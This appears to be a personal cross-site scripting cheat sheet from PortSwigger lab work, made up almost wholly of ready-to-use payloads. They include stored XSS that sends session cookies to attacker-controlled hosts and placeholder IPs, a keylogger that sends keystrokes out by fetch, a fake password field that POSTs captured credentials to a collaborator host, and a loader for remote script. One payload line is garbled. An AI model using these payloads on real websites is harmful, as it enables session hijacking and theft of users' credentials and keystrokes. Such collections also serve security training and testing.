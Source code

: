 ##### Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

```
We can use the following payload to break out the variable:
${alert(1)}
```

<hr>

Labs Stuff: 
##### Stored XSS on comment that sends us the cookie to our server

```
<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>

1. <img src=x onerror=this.src="http://<IP>:80/?cookie="+btoa(document.cookie) />
    

<script>document.location='http://<IP>grabber.php?c='+btoa(document.cookie)</script>

<img src=x onerror='document.onkeypress=function(e){fetch("http://<IP>?k="+String.fromCharCode(e.which))},this.remove();'>
    
<!--[CDATA[BPP-Informe Banca Personal_02<br--><<img src=x onerror="this.src="[http://ip/?cookie="+btoa(document.cookie)">>2](http://ip/?cookie=%22+btoa(document.cookie)%22%3E%3E2 "http://ip/?cookie="+btoa(document.cookie)">>2") Alerts]]>
```

```
<iframe src="https://0ae8000403c2b63d86144f3a00cb009a.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>

<script>
location="https://0aa8009904d13c3980295dc300300029.web-security-academy.net/?search=<xss autofocus tabindex=1 onfocusin=alert(document.cookie)></xss>"
</script>

<img src=x onerror=fetch('http://10.10.16.40/'+document.cookie);>

(stored)
<script>
location="https://burpcolaborator/?leaked=" + document.cookie;
</script>

<a href=# onclick="window.open('https://0aa8009904d13c3980295dc300300029.web-security-academy.net/?search=<xss autofocus tabindex=1 onfocusin=alert(document.cookie)></xss>')">XSS</a>" (user interaction required)

(create a form and fetch passwd)
<input name=username id=username> <input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{ method:'POST', mode: 'no-cors', body:username.value+':'+this.value });">



Load Remote JS:
<img SRC=x onerror="var script1 = document.createElement('script'); script1.src = 'http://oastify.com'; document.head.appendChild(script1);"/>
```